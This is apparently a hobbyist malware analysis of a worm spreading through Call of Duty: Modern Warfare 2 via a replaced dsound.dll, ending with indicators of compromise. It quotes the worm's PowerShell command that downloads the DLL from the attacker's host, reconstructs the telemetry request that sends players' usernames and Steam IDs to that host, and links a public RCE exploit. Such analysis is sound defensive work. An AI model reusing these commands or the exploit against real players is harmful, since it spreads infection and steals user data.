






# Call of Duty: Modern Warfare 2 (2009) Worm
---
I saw an article regarding a new worm spreading via Call of Duty: Modern Warfare 2. Link [here](https://www.techspot.com/news/99573-hackers-infecting-modern-warfare-2-players-self-spreading.html)

I haven't seen any analysis write-ups on it yet so I wanted to take a look at it myself despite not really knowing much on game hacking.

---

## Obtaining Samples
I looked at some of the Steam Forum [posts](https://steamcommunity.com/app/10190/discussions/0/3810656756190466074/?ctp=2#c3800524658154744558) and someone identified some strings located in the binary. Additionally, they mentioned the file that gets infected or replaced by the worm: dsound.dll. Others also mentioned the classified name they were alerted on by their anti-virus: Trojan/Win32: Wacatac.B!ml

Using this info, I managed to find a number of samples on VirusTotal.

---

## Analysis

Due to the file being a DLL, I looked at the exports first. There weren't any blatantly malicious export names like "SpreadWorm" but there were two that caught my eye. DirectSoundCaptureCreate8 and DirectSoundCreate8 are weird. Why would Infinity Ward name exports these? I'm sure if I reinstalled MW2 and looked at the original DLL, these wouldn't exist.



When I initially dove into these, DirectSoundCaptureCreate8 didn't have anything blatantly malicious looking. However, DirectSoundCreate8 did. I saw a number of strings that looked to be obfuscated and then I noticed the string: ```User was randomly selected to be a spreader in modded lobbies.\n```



I then worked on deobfuscating the strings. This was surprisingly easy because it was a simple rotation cipher. The rotation amount varied per string but this was easily solved with CyberChef just by clicking the up or down arrow in the ROT13 recipe. I didn't feel like completely reversing the string obfuscation.

Below are some of the deobfuscated strings.



These are all related to downloading a file from the internet. After a little more reversing it seems like these APIs are responsible for downloading updated versions of the worm and saving it as dsound1.dll and then moving the file to dsound.dll.



Taking a look at other deobfuscated strings, particularly URLs, I identified the initial connection routine. It appears to craft a packet to ```http://www[.]shinyware[.]systems/telemetry``` containing information about the victim. Specifically the username, Steam ID, cpu, and Windows version.
Below is an example packet. Keep in mind that this is purely from code analysis and could be slightly incorrect. I didn't want to reinstall MW2 nor did I want to infect anyone else while playing.
```
POST /telemetry
Host: www[.]shinyware[.]systems
Content-Type: application/x-www-form-urlencode
Data:
username=fakeuser&steamID=110191&cpu=Intel_i7&gpu=AMD_Radeon_6700&winver=Windows10
```

This is all pretty basic malware stuff but my biggest question is how is this spreading from player to player? So I began looking at RCE vulnerabilities for MW2. Surprisingly, I found a couple. This also made me a bit concerned about my younger self's PC after experiencing a few hacked lobbies. Eventually, in the rabbit hole, I discovered [this](https://github.com/BlastsMods/JoinPartyRCE/tree/master).

As I started diving into the source code I found the main exploit string.



This is extremely similar to a string within the worm-infected dsound.dll file.



I haven't really gone down the game-hacking rabbit hole so I'm not sure exactly how this JoinParty RCE works other than it's supposedly a buffer overflow that leads to RCE. It looks like it was originally designed for hacked lobbies to give everyone cheats. See the se7en sins [post](https://www.se7ensins.com/forums/threads/release-mw2-rce-menu-tu9.1771186/).

It looks like the author of this malware modified it to instead perform a Powershell command to download the worm. The Powershell command was obfuscated in the code:

```powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://www[.]shinyware[.]systems/dsound.dll', 'dsound.dll') "```

From my quick analysis of the binary, I'm not really sure of the main point of the worm. I'm not sure if it's used to spread additional malware, create a botnet for DDoS, remote access to victims, pure chaos, etc. However, I did find this Youtube [video](https://www.youtube.com/watch?v=9aAiIHY5B20) of what looks to be the worm in action. I say that because in the comments of the video it states "it was shiny's worm actually" and there's a string in the binary that states "get cucked by shiny" who is theoretically the author of the worm.

Again, I didn't want to spend a ton of time on this because I have higher-priority projects but this was a fun little analysis to do. If anyone else takes a deep dive, especially into the RCE itself please send it my way because I'd be very interested.

---

## IOCs
Hashes (SHA256):
- 26e2fa19d21b312337e06271ad00b14f8b15123779c6c96e7b2526e11070d1d4
- 20a7b7e215784b6dec17f75632e966985c63d97af1a94f7813fe120d4882a36a
- ee76423a6fd8a5ea13c14dda646baf9c957b6d4f126d358c47ac3a08ed0355b7
- cf013939eb5ac2a8c698868d0fdcbde950351c0db6fd932cdf9970d7b3376163
- a0ee880294af310d284fc177d5d9e01c4822701cc4a36c90c1dd4405ad175a35
- 9f06583803b78b1319093a2fde7304c4b3db2ecaabda846512e467740a177aa0
- bf69163328382717689382e69221d05c64302a391b4e48c0c148e299c056279e
- 86471038d536897fd254648f964c342d9f126953c90948d5bddec931f86d5a79
- ca537f4fdb9403718e6a9c2422a0efa94e3ec04aefd199b7008cc7cfcb11dd2e
- 8d4218da477d68c450a058fbcca3c46a2044e772a56de86aa3540ea669fa0d00
- 4e3f6d9f80805f389c8da8654e544144f56a4b77b4c6a38ac71ec0c487ac96f4
- 67351a25307b2f386fc35c134a5eb61b5354883eed7f284f8ab05e9783b63072
- ecc2e51f37fa0a390deac423736e7f18776a1d58798ded78a4402517fb9b4113
- 8f45a6615851789a51e97f4f103303bf7e643007a946bcd4fb16f1f33a3a0d54
- cb000abed31b92b4f3f895a633ef0ffaf01a1be0dfc73619acf98c1605a5999d
- f78d1f1e336202bf1b5ec09b37e06b01074216d55d73fa9555c7aba769cf54e1

Filename: dsound.dll

URLs:
- http://www[.]shinyware[.]systems/telemetry
- http://www[.]shinyware[.]systems/blocked[.]txt
- http://www[.]shinyware[.]systems/dsound[.]dll
